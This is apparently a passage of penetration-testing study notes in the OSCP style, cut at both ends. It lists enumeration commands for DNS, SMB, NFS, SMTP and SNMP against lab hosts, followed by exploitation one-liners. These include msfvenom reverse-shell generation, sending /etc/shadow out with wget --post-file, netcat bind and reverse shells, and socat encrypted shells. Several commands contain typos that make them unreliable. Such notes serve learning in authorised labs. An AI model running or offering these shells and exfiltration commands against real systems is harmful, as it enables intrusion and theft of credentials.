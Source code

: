 searchsploit
Wireshark
DNS enumeration:
	For finding IP from domain name: host www.megacorpone.com
	For email servers enumeration: host -t mx megacorpone.com
	For dns servers enumeration: host -t ns megacorpone.com
Most comprehensive wordlists available: sudo apt-get install seclists
DNS zone transfers: 
	host -l <domain name> <dns server address>
	host -l megacorpone.com ns2.megacorpone.com
dnsrecon 
	Zone transfers with dnsrecon: dnsrecon -d megacorpone.com -t axfr
dnsenum 
	Zone transfers with dnsenum: dnsenum megacorpone.com
SMB enumeration:
	sudo nbtscan -r 10.11.1.0/24
	nmap -v -p 139,445 --script=smb-vulns-ms08-067 --script-args unsafe=1 10.11.1.227
NFS enumeration:
	nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
	nmap -p 111 --script nfs* 10.11.1.72
SMTP enumeration:
	Verify existing users on a mail server: nc -nv 10.11.1.217 25
	VRFY root
	VRFY idontexist
SNMP enumeration:
	SNMP scanning: sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt
	onesixtyone -c -community -i ips
	Enumerating the entire MIB tree: snmpwalk -c public -v1 -t 10.11.1.14
	Enumerating Windows users: snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25
	Enumerating running Windows processes: snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2
	Enumerating open TCP ports: snmpwalk -c public 10.11.1.14 1.3.6.1.2.1.6.13.1.3
	Enumerating installed software> snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.6.3.1.2

#### 3 - Exploitation  Penetration
nc 192.168.4.49 9999
python -c 'print "A" * 5000'
msf-pattern_create -l 5000
msf-pattern_offset -l 5000 -q 31704330
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.4.51 LPORT=7777 -b "\x00" -f c
nc -nvlp 7777
Immunity Debugger
msfconsole
While in Linux shell: whoami/hostname/date/arp -a/route
While in Windows shell: getuid/sysinfo/ps/netstat
Responder
psexec/crackmapexec
python -m SimpleHTTPServer 80
python -m pyftplib -p 21 
nc -nvlp 8081 && wget --post-file=/etc/shadow 192.168.202.128:8081
Transfer text and binary files with nc: nc -nvlp 4444 > incoming.exe && nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
certutil -urlcache -f http://192.168.202.128/secrets.txt secrets.txt
"Remote administration" with nc: 
	Bind shell: nc -nvlp 4444 -e cmd.exe && nc -nv 10.11.0.22 4444
	Reverse shell: nc -nvlp 4444 && nc -nv 10.11.0.22 4444 -e /bin/bash
Socat:
	Bidirectional byte streams: socat TCP4-LISTEN:4444 STDOUT && socat - TCP4:10.11.0.4:4444
	Socat encrypted bind shell:
		openssl rew -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
		cat bind_shell.key bind_shell.crt > bind_shelll.pem
		socat OPENSSL-LISTEN:4444,cert=bind_shell.pem,verify=0,fork EXE C:/bin/bash
		socat - OPENSSL:10.11.0.4:4444,verify=o
Pivoting w/ meterpreter and autoroute
Reverse shell for Apache Tomcat: